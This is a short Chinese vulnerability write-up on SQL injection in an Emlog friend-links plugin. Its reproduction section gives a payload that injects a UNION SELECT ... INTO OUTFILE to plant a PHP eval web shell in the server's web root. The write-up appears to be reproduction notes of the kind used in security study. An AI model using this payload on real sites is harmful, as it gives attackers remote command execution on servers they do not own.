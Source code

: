 Emlog 友情链接自助插件存在SQL注入漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在该插件当中的link\_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![](resource/Emlog友情链接自助插件存在SQL注入漏洞/media/rId24.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

    url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 

之后，这条语句会正常执行，同时也会在C:\\phpstudy\\www\\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。
